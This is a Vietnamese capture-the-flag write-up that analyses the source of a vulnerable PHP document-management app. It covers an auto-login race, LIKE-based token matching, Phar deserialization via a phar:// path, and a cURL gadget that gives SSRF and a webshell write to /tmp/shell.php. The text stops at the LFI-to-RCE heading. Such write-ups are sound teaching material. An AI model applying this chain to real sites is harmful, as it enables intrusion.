






**Description:**

Nếu bạn hiểu được sự kì diệu của các con số 3, 6 và 7, bạn sẽ nắm giữ được chìa khóa của bài ctf.

<!--more-->

## Mô tả bài toán

Challenge cung cấp source code của một hệ thống quản lý tài liệu viết bằng PHP 7.4, Apache và MySQL. Người dùng có thể đăng ký, đăng nhập, tạo auto-login link, upload tài liệu, xóa tài liệu, vào trang admin và dùng dashboard dành cho tài khoản có quyền cao hơn.

Mục tiêu cuối cùng là đọc flag. Trong container, flag nằm ở `/flag.txt`, còn binary `/readflag` được set SUID root để đọc file này. Vì vậy hướng giải hợp lý là tìm cách thực thi lệnh trong web process, sau đó chạy `/readflag`.

## Table of Contents

- [Mô tả bài toán](#mô-tả-bài-toán)
- [I. Overview](#i-overview)
- [II. Kiến thức nền tảng](#ii-kiến-thức-nền-tảng)
  - [1. PHP Session Locking](#1-php-session-locking)
  - [2. Phar Archive và Phar Deserialization](#2-phar-archive-và-phar-deserialization)
  - [3. Magic Method và Gadget Chain](#3-magic-method-và-gadget-chain)
  - [4. cURL Cookie Jar](#4-curl-cookie-jar)
- [III. Phân tích mã nguồn](#iii-phân-tích-mã-nguồn)
  - [A. Session và role](#a-session-và-role)
  - [B. Auto-login flow](#b-auto-login-flow)
  - [C. Admin access code và dashboard header](#c-admin-access-code-và-dashboard-header)
  - [D. Upload file](#d-upload-file)
  - [E. Delete file và class xử lý preview](#e-delete-file-và-class-xử-lý-preview)
  - [F. Dashboard include file trong `/tmp`](#f-dashboard-include-file-trong-tmp)
- [IV. Phân tích lỗ hổng](#iv-phân-tích-lỗ-hổng)
  - [1. FLaw business logic trong auto-login](#1-flaw-business-logic-trong-auto-login)
  - [2. SQL LIKE Abuse và lỗi logic trong kiểm tra token](#2-sql-like-abuse-và-lỗi-logic-trong-kiểm-tra-token)
  - [3. Insecure Deserialization qua Phar Wrapper](#3-insecure-deserialization-qua-phar-wrapper)
  - [4. SSRF và Arbitrary File Write từ gadget `PreviewState`](#4-ssrf-và-arbitrary-file-write-từ-gadget-previewstate)
  - [5. Local File Inclusion dẫn đến RCE](#5-local-file-inclusion-dẫn-đến-rce)
- [V. Khai thác](#v-khai-thác)
  - [Bước 1. Race để login thành admin](#bước-1-race-để-login-thành-admin)
  - [Bước 2. Lấy access code của admin](#bước-2-lấy-access-code-của-admin)
  - [Bước 3. Tạo Phar thứ nhất để gọi `/admin.php` từ localhost](#bước-3-tạo-phar-thứ-nhất-để-gọi-adminphp-từ-localhost)
  - [Bước 4. Ghi webshell vào `/tmp` bằng cURL Cookie Jar](#bước-4-ghi-webshell-vào-tmp-bằng-curl-cookie-jar)
  - [Bước 5. Include shell để lấy flag](#bước-5-include-shell-để-lấy-flag)
- [VI. Thảo luận](#vi-thảo-luận)
  - [Vì sao chuỗi khai thác phải đi theo thứ tự này?](#vì-sao-chuỗi-khai-thác-phải-đi-theo-thứ-tự-này)
  - [App có chức năng upload file lên server, tại sao không upload thẳng webshell lên?](#app-có-chức-năng-upload-file-lên-server-tại-sao-không-upload-thẳng-webshell-lên)
  - [Lưu ý về PHP Session Locking](#lưu-ý-về-php-session-locking)
  - [Lưu ý về Phar Deserialization](#lưu-ý-về-phar-deserialization)
  - [Lưu ý về Cookie Jar](#lưu-ý-về-cookie-jar)
  - [Cách vá](#cách-vá)
- [Flag](#flag)

## I. Overview

Stack của challenge:

| Thành phần | Vai trò |
| --- | --- |
| PHP 7.4 + Apache | Web server chính. |
| MySQL 8.0 | Lưu user, metadata đăng nhập và document. |
| `/readflag` | Binary SUID root dùng để đọc `/flag.txt`. |
| `/var/www/html/uploads` | Thư mục lưu file upload. |

Các file source quan trọng:

| File | Vai trò |
| --- | --- |
| `register.php` | Đăng ký user và tạo auto-login link ban đầu. |
| `login.php` | Đăng nhập, set session và xác định user có phải `admin` hay không. |
| `autologin.php` | Tạo, revoke và sử dụng auto-login record. |
| `report.php` | Upload file PNG/JPG vào `./uploads/`. |
| `delete.php` | Nhận tên file từ user, đọc nội dung file và xóa record document. |
| `admin.php` | Nhận access code để cấp quyền `superadmin`. |
| `dashboard.php` | Trang dashboard của admin, có chức năng xử lý file trong `/tmp`. |

Dockerfile cho thấy cơ chế đọc flag:

```dockerfile
COPY ./flag.txt /flag.txt
COPY --from=readflag-builder /build/readflag /readflag

RUN chown root:root /readflag /flag.txt && \
        chmod 4755 /readflag && \
        chmod 400 /flag.txt
```

`/flag.txt` chỉ root đọc được, nhưng `/readflag` chạy với quyền root nhờ bit SUID. Nếu đạt được RCE với quyền web server, ta chỉ cần gọi `/readflag`.

## II. Kiến thức nền tảng

Phần này chỉ giới thiệu các khái niệm cần biết trước khi đọc source. Cách từng khái niệm được dùng trong payload sẽ được giải thích ở mục khai thác tương ứng.

### 1. PHP Session Locking

PHP thường lưu session dưới dạng file, ví dụ `sess_<PHPSESSID>`, trong thư mục session của server. Khi một script gọi `session_start()`, PHP mở file session và dùng cơ chế exclusive lock, thường thông qua `flock()`, để tránh nhiều request cùng ghi làm hỏng dữ liệu session.

Hệ quả là nhiều request mang cùng một `PHPSESSID` không nhất thiết chạy song song thật sự. Request đến sau có thể bị block cho tới khi request trước kết thúc hoặc gọi `session_write_close()`. Đây là điểm rất quan trọng khi khai thác race condition trong ứng dụng PHP.

### 2. Phar Archive và Phar Deserialization

Phar, viết tắt của PHP Archive, là định dạng đóng gói nhiều file PHP hoặc tài nguyên vào một archive. Một Phar archive thường có các phần chính:

| Phần | Ý nghĩa |
| --- | --- |
| Stub | Entry point của archive, kết thúc bằng `__HALT_COMPILER();`. |
| Manifest / Metadata | Metadata của archive. Đây là nơi có thể chứa object đã serialize. |
| File contents | Các file nằm bên trong archive. |
| Signature | Chữ ký kiểm tra tính toàn vẹn. |

Trong PHP 7.x, khi một số hàm xử lý file như `file_get_contents`, `file_exists`, `md5_file`, `stat`, `filesize`, `is_dir`... tương tác với đường dẫn `phar://...`, PHP có thể parse archive và unserialize metadata. Nếu metadata chứa object thuộc class có sẵn trong source, các magic method như `__wakeup()` hoặc `__destruct()` có thể được gọi.

### 3. Magic Method và Gadget Chain

Magic method là các hàm đặc biệt của PHP được gọi tự động trong một số tình huống. Ví dụ:

| Method | Khi nào chạy |
| --- | --- |
| `__wakeup()` | Khi object được unserialize. |
| `__destruct()` | Khi object bị hủy hoặc script kết thúc. |
| `__toString()` | Khi object bị ép thành chuỗi. |

Nếu source có nhiều class mà các magic method gọi lẫn nhau tới một hành vi nguy hiểm, ta gọi chuỗi đó là gadget chain.

### 4. cURL Cookie Jar

PHP có extension cURL, bọc lại thư viện libcurl. Một số option liên quan tới cookie:

| Option | Giá trị | Ý nghĩa |
| --- | --- | --- |
| `CURLOPT_COOKIE` | `10022` | Chỉ định cookie gửi đi cùng request. |
| `CURLOPT_COOKIEJAR` | `10082` | Chỉ định file để cURL ghi các cookie nhận được từ response. |

Cookie jar dùng format text kiểu Netscape HTTP Cookie File. Nếu một ứng dụng cho phép attacker điều khiển option và path của `CURLOPT_COOKIEJAR`, nó có thể biến thành primitive ghi file.

## III. Phân tích mã nguồn

### A. Session và role

Mọi endpoint quan trọng đều require `auth.php`. File này gọi `session_start()` nếu chưa có session:

```php
if (session_status() === PHP_SESSION_NONE) {
    session_start();
}

function require_login() {
    if (empty($_SESSION['user_id'])) {
        $_SESSION['return_to'] = $_SERVER['REQUEST_URI'];
        header('Location: /login.php');
        exit;
    }
}
```

Khi login thành công, `login.php` set role admin dựa trên username:

```php
if ($user && password_verify($password, $user['password_hash'])) {
    session_regenerate_id(true);
    $_SESSION['user_id'] = $user['id'];
    $_SESSION['username'] = $username;
    $_SESSION['admin'] = ($username === 'admin'); // <- Role admin phụ thuộc username
    unset($_SESSION['superadmin']);
}
```

Vì vậy, nếu có cách làm server login mình thành user `admin`, session đó sẽ có `$_SESSION['admin'] = true`.

### B. Auto-login flow

`autologin.php` có hai luồng chính.

Luồng thứ nhất là tạo auto-login record bằng POST:

```php
if ($action === 'create_by_username') {
    $username = trim($_POST['username'] ?? '');
    $expires_on = $_POST['expires_on'] ?? date('Y-m-d', strtotime('+30 days'));
    $unlimited_use = !empty($_POST['unlimited_use']) ? 'checked' : '';

    $user_stmt = $conn->prepare("SELECT id FROM users WHERE username = ? LIMIT 1");
    $user_stmt->bind_param('s', $username);
```

Sau khi tìm được user theo username, server tạo record rồi lưu vào bảng `user_meta`:

```php
$code = bin2hex(random_bytes(16));
$record = [
    'status' => 'active',
    'email_list' => '',
    'token' => $code,
    'expiry_mode' => 'unchecked',
    'expires_on' => $expires_on, // <- Input từ POST
    'unlimited_use' => $unlimited_use ? 'checked' : '',
];

$serialized = serialize($record);
$stmt = $conn->prepare(
    "INSERT INTO user_meta (user_id, meta_key, meta_value)
     VALUES (?, 'vault_autologin_record', ?)
     ON DUPLICATE KEY UPDATE meta_value = VALUES(meta_value)"
);
```

Điểm đáng chú ý là code insert record trước, sau đó mới kiểm tra record đó có thuộc về chính user hiện tại hay không:

```php
if ($stmt->execute()) {
    if ($user['id'] === (int)$_SESSION['user_id']) {
        $generated_link = '/autologin.php?vault_key=' . urlencode($code);
        $notice = 'Auto-login link generated for your username.';
    } else {
        $cleanup = $conn->prepare(
            "DELETE FROM user_meta
             WHERE user_id = ? AND meta_key = 'vault_autologin_record'"
        ); // <- Record của user khác bị xóa sau khi đã được ghi
        $cleanup->bind_param('i', $user['id']);
        $cleanup->execute();
    }
}
```

Luồng thứ hai là dùng auto-login bằng GET `vault_key`:

```php
if (isset($_GET['vault_key'])) {
    $vault_key = mock_sanitize_input($_GET['vault_key']);
    $needle = '%' . mock_esc_like(mock_wp_json_encode($vault_key)) . '%';

    $stmt = $conn->prepare(
        "SELECT user_id FROM user_meta
         WHERE meta_key = 'vault_autologin_record'
         AND meta_value LIKE ? ESCAPE '\\\\'"
    );
```

Code không so sánh `vault_key` trực tiếp với field `token`. Thay vào đó, nó tìm chuỗi `vault_key` trong toàn bộ serialized record bằng `LIKE`.

Nếu chỉ có đúng một user match và record còn valid, server login thành user đó:

```php
if ($valid) {
    $user_stmt = $conn->prepare("SELECT id, username FROM users WHERE id = ? LIMIT 1");
    $user_stmt->bind_param('i', $current_user_id);

    if ($user) {
        session_regenerate_id(true);
        $_SESSION['user_id'] = $user['id'];
        $_SESSION['username'] = $user['username'];
        $_SESSION['admin'] = ($user['username'] === 'admin');
        unset($_SESSION['superadmin']);
        header('Location: /index.php');
        exit;
    }
}
```

### C. Admin access code và dashboard header

`admin.php` cấp quyền `superadmin`, nhưng có hai điều kiện:

```php
$sql = "SELECT content FROM document";
$result = $conn->query($sql);
$row = $result->fetch_assoc();
$admin_token = md5($row["content"]);

if (md5($input_code) === $admin_token && $_SERVER['REMOTE_ADDR'] === '127.0.0.1') {
    $_SESSION['superadmin'] = true;
    echo "Administrator privileges have been granted.";
}
```

Ta cần biết `content` của document đầu tiên để gửi đúng `access_code`, và request phải đi từ localhost.

`dashboard.php` lại gửi `content` đó cho admin qua header base64url:

```php
$token_result = $conn->query("SELECT content FROM document LIMIT 1");
if ($token_row = $token_result->fetch_assoc()) {
    $bridge_receipt = rtrim(strtr(base64_encode($token_row['content']), '+/', '-_'), '=');
}

if (!empty($_SESSION['admin'])) {
    if ($bridge_receipt !== '') {
        header('X-Archive-Receipt: ' . $bridge_receipt); // <- Leak access code dạng base64url
    }
}
```

Như vậy admin có thể lấy được access code, nhưng vẫn chưa thể tự gọi `/admin.php` từ `127.0.0.1` nếu request đi từ browser bên ngoài.

### D. Upload file

`report.php` cho upload file nếu MIME là PNG/JPEG:

```php
$allowedTypes = ['image/png' => 'png', 'image/jpeg' => 'jpg'];
$fileType = $_FILES['file']['type'];

if (array_key_exists($fileType, $allowedTypes)) {
    $randomFileName = generate_random_name() . '.' . $allowedTypes[$fileType];
    move_uploaded_file($_FILES['file']['tmp_name'], $uploadPath . $randomFileName);
}
```

Tên file trên server là random, và server alert tên này sau khi upload thành công. Ta cần tên file đó cho các bước đọc/xóa file sau này.

### E. Delete file và class xử lý preview

`delete.php` nhận `title`, kiểm tra extension, rồi đọc file:

```php
$title = $_POST['title'];

if (strpos($title, '..') !== false) {
    echo "Filtered.";
    exit(-1);
}

$filePath = $title;
$imageType = pathinfo($filePath, PATHINFO_EXTENSION);
$allowedTypes = ['png', 'jpg', 'jpeg'];

if (!in_array(strtolower($imageType), $allowedTypes)) {     // <- Chỉ cho phép một số extensions
    echo "Invalid image type.";
    exit(-1);
}

$imageData = file_get_contents($filePath); // <- Đọc đường dẫn do user gửi
```

Trong cùng file có hai class đáng chú ý:

```php
class PreviewState {
    public $endpoint;
    private $headers;
    private $payload;
    private $sessionNote;

    function __wakeup() {
        if (empty($_SESSION['admin'])) {
            $this->sessionNote = 'discarded';
            $this->headers = [CURLOPT_USERAGENT => 'discarded'];
            return;
        }
        if (empty($_SESSION['superadmin'])) {
            $this->headers = [CURLOPT_USERAGENT => 'discarded'];
        }
    }
```

`__wakeup()` thay đổi object tùy theo role hiện tại. Nếu chưa phải admin, gần như các field quan trọng bị discard. Nếu là admin nhưng chưa superadmin, `headers` bị discard. Nếu đã superadmin, các field được giữ nguyên.

Method `flush()` tạo cURL request:

```php
function flush() {
    if (session_status() === PHP_SESSION_ACTIVE) {
        session_write_close();
    }

    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $this->endpoint);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

    if (!empty($this->payload)) {
        curl_setopt($ch, CURLOPT_POST, true);   // <- cURL dùng POST request
        curl_setopt($ch, CURLOPT_POSTFIELDS, $this->payload);   // <- Data ở body
    }

    if (!empty($this->sessionNote)) {
        curl_setopt($ch, CURLOPT_COOKIE, $this->sessionNote);   // <- Set Cookie
    }

    if (!empty($this->headers)) {
        $option = array_key_first($this->headers);          // <- Set headers
        $value = $this->headers[$option];
        curl_setopt($ch, $option, $value); // <- Option và value có thể đến từ object
    }

    $output = curl_exec($ch);
    echo $output;
    curl_close($ch);
}
```

Class còn lại gọi `flush()` khi object bị hủy:

```php
class PendingPreview {
    public $state;

    function __destruct() {
        if ($this->state instanceof PreviewState) {
            $this->state->flush(); // <- Sink tạo request cURL
        }
    }
}
```

### F. Dashboard include file trong `/tmp`

`dashboard.php` có chức năng include file cho superadmin:

```php
if ($_POST['filename']) {
    include "./templates/dashboard.html";
    if (!empty($_SESSION['superadmin'])) {  // <- Phải là superadmin
        $filename = strtolower(trim($_POST['filename']));
        if (strpos($filename, '/tmp') !== 0 || strpos($filename, '../') !== false) {
            echo "<div class='center-text'>Only /tmp paths are allowed.</div>";
        } else if (!file_exists($filename)) {
            echo "<div class='center-text'>File not found.</div>";
        } else {
            include ($filename); // <- Include file do user chọn trong /tmp
        }
    }
}
```

Điều kiện là session phải có `superadmin`, file phải tồn tại, path phải bắt đầu bằng `/tmp`, và không chứa `../`.

## IV. Phân tích lỗ hổng

Phần này chỉ tập trung vào bản chất từng lỗi. Cách nối các lỗi thành chuỗi khai thác hoàn chỉnh sẽ được trình bày ở phần V.

### 1. FLaw business logic trong auto-login

- **Vị trí:** `autologin.php`
- **Loại lỗi:** Lỗi logic nghiệp vụ.

Khi user tạo auto-login link cho một username bất kỳ, server tìm user theo username rồi tạo record mới trong bảng `user_meta`:

```php
$stmt = $conn->prepare(
    "INSERT INTO user_meta (user_id, meta_key, meta_value)
     VALUES (?, 'vault_autologin_record', ?)
     ON DUPLICATE KEY UPDATE meta_value = VALUES(meta_value)"
);
$stmt->bind_param('is', $user['id'], $serialized);
```

Sau khi `INSERT` thành công, code mới kiểm tra user đó có phải chính user đang đăng nhập hay không:

```php
if ($stmt->execute()) {
    if ($user['id'] === (int)$_SESSION['user_id']) {
        $generated_link = '/autologin.php?vault_key=' . urlencode($code);
    } else {
        $cleanup = $conn->prepare(
            "DELETE FROM user_meta
             WHERE user_id = ? AND meta_key = 'vault_autologin_record'"
        );
        $cleanup->bind_param('i', $user['id']);
        $cleanup->execute();
    }
}
```

Vấn đề nằm ở thứ tự xử lý: hệ thống **ghi record trước**, rồi mới phát hiện sai quyền và **xóa record sau**. Khoảng thời gian rất ngắn giữa `INSERT` và `DELETE` tạo ra một cửa sổ race. Nếu một request khác đọc database đúng thời điểm đó (Race condition - TOCTOU), nó có thể nhìn thấy record vốn chỉ tồn tại tạm thời.

Tác động của lỗi này là attacker có thể làm xuất hiện tạm thời auto-login record cho tài khoản `admin`. Bản thân nó chưa đủ để login thành admin, nhưng nó kết hợp lỗi ở mục tiếp theo để mở ra một lỗ hổng.

Ghi chú khai thác: vì endpoint dùng PHP session, các request có cùng `PHPSESSID` có thể bị session lock làm chạy tuần tự. Khi spam request để bắt race, các luồng GET không cần xác thực nên nên bỏ cookie để tránh bị PHP Session Locking triệt tiêu tính song song.

### 2. SQL LIKE Abuse và lỗi logic trong kiểm tra token

- **Vị trí:** `autologin.php`
- **Loại lỗi:** SQL LIKE Abuse kết hợp lỗi logic xác thực token.

Auto-login record được lưu trong `meta_value` dưới dạng serialized PHP array:

```php
$record = [
    'status' => 'active',
    'email_list' => '',
    'token' => $code,
    'expiry_mode' => 'unchecked',
    'expires_on' => $expires_on,
    'unlimited_use' => $unlimited_use ? 'checked' : '',
];

$serialized = serialize($record);
```

Trong đó, `token` là giá trị ngẫu nhiên sinh bằng `random_bytes(16)`, nhưng `expires_on` lại lấy trực tiếp từ `$_POST`:

```php
$expires_on = $_POST['expires_on'] ?? date('Y-m-d', strtotime('+30 days'));
```

Khi dùng auto-login, server không parse serialized array rồi so sánh riêng field `token`. Thay vào đó, nó tìm `vault_key` bằng `LIKE` trên toàn bộ chuỗi serialized:

```php
$vault_key = mock_sanitize_input($_GET['vault_key']);
$needle = '%' . mock_esc_like(mock_wp_json_encode($vault_key)) . '%';

$stmt = $conn->prepare(
    "SELECT user_id FROM user_meta
     WHERE meta_key = 'vault_autologin_record'
     AND meta_value LIKE ? ESCAPE '\\\\'"
);
```

Đây không phải SQL Injection theo nghĩa chèn cú pháp SQL, vì query vẫn dùng prepared statement. Lỗi nằm ở việc dùng `LIKE '%...%'` để xác thực token trên toàn bộ blob serialized. Bất kỳ field nào trong serialized record chứa chuỗi `vault_key` đều có thể làm query match, không riêng field `token`.

Tác động là attacker không cần đoán token ngẫu nhiên `bin2hex(random_bytes(16))`. Chỉ cần điều khiển một field khác trong record, ví dụ đặt `expires_on=bingochin`, rồi gọi `GET /autologin.php?vault_key=bingochin`, câu `LIKE` có thể match trúng record admin đang tồn tại trong cửa sổ race.

### 3. Insecure Deserialization qua Phar Wrapper

- **Vị trí:** `delete.php`
- **Loại lỗi:** Insecure Deserialization thông qua `phar://`.

Endpoint xóa file nhận `title` từ POST, kiểm tra extension bằng `pathinfo()`, rồi đọc file:

```php
$title = $_POST['title'];
$filePath = $title;
$imageType = pathinfo($filePath, PATHINFO_EXTENSION);
$allowedTypes = ['png', 'jpg', 'jpeg'];

if (!in_array(strtolower($imageType), $allowedTypes)) {
    echo "Invalid image type.";
    exit(-1);
}

$imageData = file_get_contents($filePath);
```

Điểm yếu là `file_get_contents($filePath)` nhận trực tiếp path do user kiểm soát, nhưng code không chặn stream wrapper. Extension check bằng `pathinfo()` chỉ nhìn phần đuôi đường dẫn, nên một đường dẫn kiểu sau vẫn có thể qua filter:

```text
phar://./uploads/<uploaded_name>.png/test.png
```

`pathinfo()` thấy file con `test.png` có extension hợp lệ. Nhưng khi `file_get_contents()` xử lý `phar://`, PHP parse Phar archive và có thể **unserialize metadata** trong archive.

Tác động là attacker có thể đưa object PHP vào bộ nhớ server nếu object đó thuộc class đã được định nghĩa trong `delete.php`. Đây là điểm mở đầu cho gadget chain, nhưng bản thân lỗi nằm ở việc cho user-control path đi vào file API có hỗ trợ wrapper nguy hiểm.

### 4. SSRF và Arbitrary File Write từ gadget `PreviewState`

- **Vị trí:** class `PreviewState` và `PendingPreview` trong `delete.php`
- **Loại lỗi:** SSRF và Arbitrary File Write qua object property injection.

Sau khi object trong metadata Phar được unserialize, class `PendingPreview` có magic method `__destruct()`:

```php
class PendingPreview {
    public $state;

    function __destruct() {
        if ($this->state instanceof PreviewState) {
            $this->state->flush();
        }
    }
}
```

`flush()` trong `PreviewState` tạo cURL request dựa trên các property của object:

```php
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $this->endpoint);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

if (!empty($this->payload)) {
    curl_setopt($ch, CURLOPT_POST, true);
    curl_setopt($ch, CURLOPT_POSTFIELDS, $this->payload);
}

if (!empty($this->sessionNote)) {
    curl_setopt($ch, CURLOPT_COOKIE, $this->sessionNote);
}

if (!empty($this->headers)) {
    $option = array_key_first($this->headers);
    $value = $this->headers[$option];
    curl_setopt($ch, $option, $value);
}
```

Các property như `endpoint`, `payload`, `sessionNote`, `headers` có thể được đặt trong object metadata của Phar. Vì vậy gadget này tạo ra hai tác động khác nhau:

| Tác động | Nguyên nhân cụ thể |
| --- | --- |
| SSRF | `CURLOPT_URL` lấy từ `$this->endpoint`, cho phép server gửi request tới endpoint do attacker chọn. |
| Arbitrary File Write | `$headers` được dùng như cặp `(option, value)` cho `curl_setopt()`, nên có thể đặt option `10082`, tức `CURLOPT_COOKIEJAR`, để ghi cookie ra file. |

Code có `__wakeup()` làm giảm quyền của object tùy role:

```php
function __wakeup() {
    if (empty($_SESSION['admin'])) {
        $this->sessionNote = 'discarded';
        $this->headers = [CURLOPT_USERAGENT => 'discarded'];
        return;
    }
    if (empty($_SESSION['superadmin'])) {
        $this->headers = [CURLOPT_USERAGENT => 'discarded'];
    }
}
```

Điều này không triệt tiêu lỗi, mà chỉ chia tác động theo role:

| Role hiện tại | Field còn hữu ích | Tác động |
| --- | --- | --- |
| Admin | `endpoint`, `payload`, `sessionNote` | Có thể SSRF kèm POST body và cookie. |
| Superadmin | `endpoint`, `payload`, `sessionNote`, `headers` | Có thể SSRF và set option cURL tùy ý, bao gồm `CURLOPT_COOKIEJAR`. |

Tác động kép của lỗi:

- **SSRF nâng quyền:** request xuất phát từ server có thể đi tới `http://127.0.0.1/admin.php`, vượt điều kiện localhost của `admin.php`.
- **Arbitrary File Write:** khi điều khiển được `$headers`, attacker có thể đặt `[10082 => '/tmp/shell.php']`, ép cURL ghi cookie nhận từ server ngoài vào `/tmp/shell.php`.

### 5. Local File Inclusion dẫn đến RCE

- **Vị trí:** `dashboard.php`
